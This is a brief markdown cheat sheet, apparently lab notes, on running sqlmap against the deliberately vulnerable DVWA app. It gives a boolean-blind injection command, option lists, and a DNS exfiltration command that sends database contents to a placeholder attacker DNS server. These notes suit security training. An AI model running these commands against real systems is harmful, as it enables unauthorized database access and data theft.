 # SQLMap

Boolean

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "" --random-agent -p id --technique=B --string="User ID exists in the database." --not-string="User ID is MISSING from the database."
```

Brute force:
These options can be used to run brute force checks

--common-tables     Check existence of common tables
--common-columns    Check existence of common columns
--common-files      Check existence of common files

  Optimization:
These options can be used to optimize the performance of sqlmap

-o                  Turn on all optimization switches
--predict-output    Predict common queries output
--keep-alive        Use persistent HTTP(s) connections
--null-connection   Retrieve page length without actual HTTP response body
--threads=THREADS   Max number of concurrent HTTP(s) requests (default 1)

### DNS Exfiltration

TODO: Demonstrate DNS exfiltration via sqlmap in blind SQLi

```
$ sudo sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dns-domain=<dns_server_IP> -D dvwa
```
